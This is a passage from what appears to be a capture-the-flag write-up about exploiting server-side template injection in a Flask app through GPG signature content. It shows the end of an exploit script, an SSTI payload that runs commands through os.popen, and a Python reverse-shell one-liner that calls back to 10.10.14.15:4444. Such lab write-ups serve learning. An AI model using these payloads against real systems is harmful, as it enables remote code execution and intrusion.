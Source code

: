 ```python
        self.inject(cmd)

    def do_EOF(self, _):
        return True

e = Exploit()
e.cmdloop()
```

We can also execute remote commands via Python code like `request.application.__globals__.__builtins__.__import__('os').popen('ls').read()` now:

```bash
(cmd) request.application.__globals__.__builtins__.__import__('os').popen('id').read()
...
[GNUPG:] GOODSIG 7BF5637BBF510011 Python--->uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
 <lala@example.com>
gpg: Good signature from "Python--->uid=1000(atlas) gid=1000(atlas) groups=1000(atlas)
...
```

We can get a reverse shell too.

{% code overflow="wrap" %}
```bash
(Cmd) request.application.__globals__.__builtins__.__import__('os').system('python3 -c "import socket,pty,os;s=socket.socket();s.connect((\"10.10.14.15\",4444));[os.dup2(s.fileno(),i) for i in range(3)];pty.spawn(\"/bin/bash\");"')
```
{% endcode %}

### Credential Hunting

We see the source of the site is under the path `/var/www/html/SSA/SSA`.

We can see the cause of the SSTI is the usage of `render_template_string`:

<figure><img src="../../.gitbook/assets/圖片 (35).png" alt=""><figcaption></figcaption></figure>
